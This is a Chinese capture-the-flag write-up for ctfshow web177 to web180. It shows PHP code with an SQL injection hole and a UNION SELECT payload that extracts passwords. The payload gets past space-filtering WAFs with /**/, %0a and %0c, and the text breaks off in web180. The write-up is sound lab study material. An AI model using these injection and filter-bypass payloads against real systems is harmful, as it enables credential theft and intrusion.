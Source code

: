 ### web177 空格过滤

```
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

```
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```

先进行尝试结果order by就先噶了，浅猜测一下是否是过滤空格

使用/**/发现没问题，即过滤空格，对应的空格绕过有

```
%0a %0b %0c %0d %09 %a0 /**/ 括号等
```

构造

```
-1'/**/union/**/select/**/1,2,password/**/from/**/ctfshow_user/**/%23
请注意末尾的注释符要是有%23，不然没有用，不知道为什么
```

### web178 过滤空格和/**/

跟上一题一样，就给个过滤不知道过了什么

先尝试同样的payload发现不行，再试一下空格有没有被过滤

```
输入1空格，发现无回显----过滤空格
在输入1/**/，也无=-----过滤了/***/
```

ok，尝试一下空格的其他替代如%0a

发现可行，收工

### web179 过滤空格 /**/ %0a

跟上一题一样的思路

```
输入1空格，发现无回显----过滤空格
在输入1/**/，也无=-----过滤了/***/
输入1%0a，也无------过滤%0a
尝试%0c可以，收工
```

### web180 --+中+过滤

跟上一题一样测试发现%0c可用，那什么被过滤了嘞，
